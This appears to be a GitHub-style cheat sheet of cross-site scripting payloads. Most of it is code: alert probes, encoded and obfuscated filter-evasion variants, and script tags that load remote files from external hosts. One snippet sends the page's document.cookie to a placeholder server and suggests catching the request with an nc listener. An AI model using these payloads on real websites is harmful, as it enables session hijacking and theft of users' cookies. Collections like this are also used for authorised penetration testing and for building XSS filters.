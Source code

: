 # XSS (CROSS SITE SCRIPTING)

Payloads
--------
```
<script>alert("XSS")</script>
<script>alert('XSS')</script>
<script>alert(123123)</script>
<script>alert(document.cookie)</script>
<svg onload=alert(1)>
"/><object data="data:text/html;base64,PHNjcmlwdD5hbGVydChkb2N1bWVudC5jb29raWUpOzwvc2NyaXB0Pg==
"/><iframe srcdoc="&lt;img src&equals;x:x onerror&equals;alert&lpar;1&rpar;&gt;" />
```

iframe: `<iframe src="http://www.cnn.com" height = "0" width = "0"></iframe>`  
Stored cookie: `<script>alert(document.cookie)</script>`  
Reflected (vulnerable parameter): `http://localhost/xss_r/?name=<script>alert(document.cookie)</script`  
Stealing cookies:  
```
<script>
new Image().src="http://0.0.0.0/bogus.php?output="+document.cookie;
</script>

You can see the browser's request by setting up nc listener on port 80.
```

```
<body background="javascript:alert('running in background');">
<iframe src="javascript:alert('Hello');“/>
<input type=image src="&#74;avascript:alert('Have You')">
<img src='iamnothere.gif' onError=”alert('EventHandler')">
<frameset onLoad="alert('EventHandler')">
<layer name="extern" src="http://evil.com/test.html">
```

* [OWASP XSS Filter Evasion Cheat Sheet](https://www.owasp.org/index.php/XSS_Filter_Evasion_Cheat_Sheet)

[Cheatsheet](http://ha.ckers.org/xss.html)
------------------------------------------

XSS locator:

```javacsript
';alert(String.fromCharCode(88,83,83))//\';alert(String.fromCharCode(88,83,83))//";alert(String.fromCharCode(88,83,83))//\";alert(String.fromCharCode(88,83,83))//--></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83))</SCRIPT>
```

XSS locator 2:

```
'';!--"<XSS>=&{()}
```

Other:

```
<SCRIPT SRC=http://ha.ckers.org/xss.js></SCRIPT>
<IMG SRC="javascript:alert('XSS');">
<IMG SRC=javascript:alert('XSS')>
<IMG SRC=JaVaScRiPt:alert('XSS')>
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
<IMG """><SCRIPT>alert("XSS")</SCRIPT>">
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
<IMG SRC=&#106;&#97;&#118;&#97;&#115;&#99;&#114;&#105;&#112;&#116;&#58;&#97;&#108;&#101;&#114;&#116;&#40;&#39;&#88;&#83;&#83;&#39;&#41;>
<IMG SRC=&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041>
<IMG SRC=&#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29>
<IMG SRC="jav	ascript:alert('XSS');">
<IMG SRC="jav&#x09;ascript:alert('XSS');">
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
<IMG SRC="jav&#x0D;ascript:alert('XSS');">
```

XSS and XML
-----------
```
<html:html xmlns:html='http://www.w3.org/1999/xhtml'>
  <html:script>
      alert(document.cookie);
  </html:script>
</html:html>
```

Misc
----

* [JSFuck](http://www.jsfuck.com/) - Javascript with six characters
* [XSS Payloads](http://www.xss-payloads.com/) - a variety of XSS payloads

Resources
---------

* [Cross-Site Scripting (XSS)](http://phpsecurity.readthedocs.io/en/latest/Cross-Site-Scripting-(XSS).html)
